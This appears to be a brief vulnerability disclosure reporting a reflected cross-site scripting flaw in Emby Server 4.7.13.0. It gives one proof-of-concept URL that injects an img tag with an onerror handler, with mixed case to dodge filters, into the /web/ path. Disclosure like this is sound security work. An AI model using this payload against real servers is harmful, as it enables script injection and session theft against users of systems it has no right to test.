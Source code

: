 # Vulnerability Description
I found a Reflected Cross-Site Scripting （XSS） in the latest version of Emby server version  4.7.13.0
official address：
https://emby.media/
https://github.com/MediaBrowser/Emby.Releases   

# Vulnerability Details

Everything after /web/ is reflected. See the attachments for an example: 
```
http://<ip>:<port>/web/%3Cimg%20sRc=l%20oNerrOr=alert('xss')%20x%3E
```


